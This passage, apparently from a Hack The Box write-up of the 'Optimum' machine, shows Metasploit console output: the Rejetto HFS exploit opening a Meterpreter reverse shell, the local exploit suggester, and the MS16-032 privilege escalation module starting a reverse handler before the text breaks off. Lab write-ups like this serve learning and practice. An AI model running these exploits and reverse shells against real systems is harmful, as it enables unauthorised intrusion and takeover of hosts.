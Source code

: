 ```
[*] Server started.
[*] Sending a malicious request to /
[*] Payload request received: /YqQuLmjEaXD
[*] Sending stage (179267 bytes) to 10.10.10.8
[*] Meterpreter session 1 opened (10.10.14.116:4444 -> 10.10.10.8:49239) at 2017-10-14 09:51:34 -0400
[*] Server stopped.
[!] This exploit may require manual cleanup of '%TEMP%\pCrVCNhk.vbs' on the target
```

Got a meterpreter session.

```
meterpreter >
meterpreter > sysinfo
Computer : OPTIMUM
OS : Windows 2012 R2 (Build 9600).
Architecture : x64
System Language : el_GR
Domain : HTB
Logged On Users : 1
Meterpreter : x86/windows
```

I needed to background first the session so that I am able to run the exploit suggester for windows.

```
meterpreter > background
[*] Backgrounding session 1...

msf exploit(rejetto_hfs_exec) > search suggester

Matching Modules
================

Name Disclosure Date Rank Description
---- --------------- ---- -----------
post/multi/recon/local_exploit_suggester normal Multi Recon Local Exploit Suggester

msf exploit(rejetto_hfs_exec) > use post/multi/recon/local_exploit_suggester
msf post(local_exploit_suggester) > set SESSION 1
SESSION => 1
msf post(local_exploit_suggester) > run

[*] 10.10.10.8 - Collecting local exploits for x86/windows...
[*] 10.10.10.8 - 37 exploit checks are being tried...
[+] 10.10.10.8 - exploit/windows/local/bypassuac_eventvwr: The target appears to be vulnerable.
[+] 10.10.10.8 - exploit/windows/local/ms16_032_secondary_logon_handle_privesc: The target service is running, but could not be validated.
[+] 10.10.10.8 - exploit/windows/local/ms_ndproxy: The target service is running, but could not be validated.
[*] Post module execution completed
msf post(local_exploit_suggester) > use exploit/windows/local/ms16_032_secondary_logon_handle_privesc
msf exploit(ms16_032_secondary_logon_handle_privesc) > 
msf exploit(ms16_032_secondary_logon_handle_privesc) > run
msf exploit(ms16_032_secondary_logon_handle_privesc) > set SESSION 2
[*] Started reverse TCP handler on 192.168.8.102:4444 
[!] Executing 32-bit payload on 64-bit ARCH, using SYSWOW64 powershell
[*] Writing payload file, C:\Users\kostas\Desktop\cbOzoCyJAykO.txt...
[*] Compressing script contents...
[+] Compressed size: 3596
[*] Executing exploit script...

```